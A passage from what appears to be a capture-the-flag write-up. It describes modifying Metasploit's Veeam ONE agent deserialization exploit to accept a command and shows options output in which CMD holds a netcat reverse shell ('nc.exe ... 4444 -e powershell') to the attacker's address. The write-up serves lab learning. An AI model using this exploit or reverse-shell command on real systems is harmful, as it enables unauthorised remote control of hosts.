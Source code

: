 ```bash
```
{: .nolineno}
{: .nolineno}

when I use this show target options I get these 3 options 🔽

![Image](Pasted%20image%2020240318143756.png)
_Targets for exploit_

I set it to 0 as I need to perform the Windows Command execution and changed the Payload as `windows/x64/exec` that allows me to execute command .

Now the problem was that there was no option to input any payloads that will be executed so I have to modify the exploit and for that I ran <mark style="background: #FFB86CA6;">edit</mark> command and the exploit code opens up like this 🔻

I added this set of code tha will include this CMD key and the value as my payload like this 🔻

![Image](Pasted%20image%2020240318144415.png)
_Added CMD key and payload as value_

Also to make it enable I had to include the <mark style="background: #D2B3FFA6;">exeute_command</mark> function along with the datastore key function into it.

![Image](Pasted%20image%2020240318144638.png)
_execute_command function in ruby_

Now I have to add the RHOSTS value as 127.0.0.1 which is localhost also the port forworded address so that's why and the CMD value as reverse shell command like this 🔽

```bash
msf6 exploit(windows/misc/veeam_one_agent_deserialization) > options

Module options (exploit/windows/misc/veeam_one_agent_deserialization):

   Name           Current Setting                   Required  Description
   ----           ---------------                   --------  -----------
   CMD            C:\ProgramData\nc.exe 10.11.75.2  yes       This is the reverse shell command !
                  00 4444 -e powershell
   HOSTINFO_NAME  AgentController                   yes       Name to send in host info (must be recognized by server!)
   RHOSTS                                           yes       The target host(s), see https://docs.metasploit.com/docs/u
                                                              sing-metasploit/basics/using-metasploit.html
   RPORT          2805                              yes       The target port (TCP)
   SSL            false                             no        Negotiate SSL for incoming connections
   SSLCert                                          no        Path to a custom SSL certificate (default is randomly gene
                                                              rated)
   URIPATH                                          no        The URI to use for this exploit (default is random)


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the
                                       local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


```